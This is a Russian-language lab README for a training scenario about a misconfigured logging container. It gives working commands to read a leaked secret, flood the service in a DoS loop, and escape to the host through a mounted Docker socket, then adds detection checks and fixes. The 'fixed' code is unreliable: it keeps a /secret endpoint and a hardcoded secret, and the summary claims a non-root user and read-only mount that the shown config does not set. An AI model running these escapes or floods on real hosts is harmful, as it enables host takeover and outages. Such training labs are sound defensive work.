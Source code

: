 ## Сценарий B: «Лог-монстр и побег из контейнера»
**Уровень сложности:** продвинутый  
**Суть проблемы:**  
В этой истории вы — сервисный инженер “FinCorp”, отвечающий за централизованный сбор логов. Вам поручили развернуть Logging Service, который принимает GET-запросы и пишет их в файл /logs/app.log на хосте. 
Так же требуется вызывать docker для сбора метаданных контейнеров, ротации логов или запуска вспомогательных контейнеров — поэтому разработчики добавили Docker-клиент в образ.
По ошибке конфигурации:

• контейнер запускают с privileged: true и монтируют /var/run/docker.sock, что даёт полный доступ к Docker-демону хоста;
• логи пишутся в hostPath ./host_logs, без режима read-only;
• не заданы лимиты CPU/памяти, что позволяет устроить DoS;
• логгер выводит все process.env, включая APP_SECRET, — утечка секрета.

## Запуск
- Сборка
```sh
docker-compose up --build -d
```
- Убедитесь, что контейнеры запущены:
```sh
docker ps
```

## Эксплуатация уязвимостей
- Получите секрет через HTTP:
```sh
curl http://localhost:4000/secret
```

- Проверьте эндпоинт логирования и файл, в который записываются логи:
```sh
curl "http://localhost:4000/log?msg=spam"

cat ./host_logs/app.log
```
Должно быть две записи - одна после обращения к секрету и вторая от обращения к логеру

- Устроьте DoS, заполняя логи (чтобы остановить процесс - нажмите CTRL+C)
```sh
while true; do curl "http://localhost:4000/log?msg=spam"; done
```
При достаточно продолжительном DoS файл ./host_logs/app.log может разрастись до очень большого размера и вызвать отказ сервиса

- Побег из контейнера:
Сперва зайти в оболочку контейнера, а затем произведите побег
```sh
docker exec -it labb_logmonster-log-srvc-1 sh

docker run --rm -v /:/host alpine sh -c "echo breakout > /host/tmp/breakout.txt"
```

## Обнаружение
- Проверка привилегий:
```sh
docker inspect labb_logmonster-log-srvc-1 --format '{{ .HostConfig.Privileged }}'
```

- Проверка socket-монтирования:
```sh
 docker inspect labb_logmonster-log-srvc-1 --format '{{ .HostConfig.Binds }}'
```

- Поиск утечки секрета в логах:
```sh
grep APP_SECRET host_logs/app.log
```
- Мониторинг ресурсов (DoS):
```sh
docker stats labb_logmonster-log-srvc-1
```

## Исправления
- Удалить privileged и монтирование Docker-socket и запускать контейнер от непривилегированного пользователя:
Новый `docker-compose` файл ->
```yml
version: '3.8'
services:
  log-srvc:
    build: .
    image: log:latest
    ports:
      - "4000:4000"
    volumes:
    - logs_data:/logs
    environment:
      - APP_SECRET=SuperSecret123
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 256M
volumes:
  logs_data:
```

- Изменить logger.js, чтобы он не включал process.env в логи, а только пользовательское сообщение
```js
const express = require('express');
const fse = require('fs-extra');
const path = require('path');

const app = express();
const LOG_DIR = '/logs';
const LOG_FILE = path.join(LOG_DIR, 'app.log');

fse.ensureDirSync(LOG_DIR);

app.use((req, res, next) => {
  const timestamp = new Date().toISOString();
  const line = `[${timestamp}] PATH=${req.path}\n`;
  fse.appendFileSync(LOG_FILE, line);
  next();
});

app.get('/log', (req, res) => {
  const msg = req.query.msg || '';
  const line = `[${new Date().toISOString()}] MSG=${msg}\n`;
  fse.appendFileSync(LOG_FILE, line);
  res.send('Logged');
});

app.get('/secret', (req, res) => {
  res.send(`SECRET=${process.env.APP_SECRET}`);
});

app.listen(4000, () => console.log('LogMonster listening on 4000'));
```

## Итог

В этом сценарии вы отработали:

- Как ошибки в docker-compose.yml (privileged, hostPath, отсутствие limits) приводят к утечкам и DoS,
- Как небезопасный логгер может раскрыть секреты,
- Какие простые изменения (non-root user, read-only mount, resource limits, фильтрация env) закрывают эти риски.
